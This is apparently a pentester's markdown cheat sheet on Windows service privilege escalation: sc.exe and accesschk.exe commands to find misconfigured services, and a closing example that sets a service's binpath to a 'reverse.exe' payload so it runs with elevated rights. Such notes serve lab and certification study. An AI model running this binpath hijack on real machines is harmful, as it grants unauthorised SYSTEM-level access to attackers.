 ```yaml
---
description: >-
  Basic commands when abusing services to elevate privileges after being
  identified with a tool such as WinPEAS.
---
```


# Service Exploitation

### Basic Commands

#### Query the Configuration of a Service

\`sc.exe qc \[SERVICE\_NAME]

#### Query the Current Status of a Service

`sc.exe query [SERVICE_NAME]`

#### Modify an option of a service:&#x20;

`sc.exe config [SERVICE_NAME] [OPTION]= [VALUE]`

#### Start and Stop a Service

`net start/stop [SERVICE_NAME]`

### Accesschk.exe

#### Use [Accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) to validate service permissions:

`.\accesschk.exe /accepteula -uwcqv user [SERVICE_NAME]`

* What we are looking for in the output is the `SERVICE_START` and `SERVICE_STOP` permissions.
* We also want to confirm that it is running under a user with higher privileges (e.g., `LocalSystem`)

### Notes

* Validate if you can start/stop the service or the machine. If you cannot then you may not be able to use it to escalate your privileges.&#x20;
* An easy way to escalate privileges utilizing a service is to modify the binaries path. The following demonstrates an example of this:
  * `sc config [SERVICE_NAME] binpath= "\"C:\Windows\Tasks\reverse.exe\""`

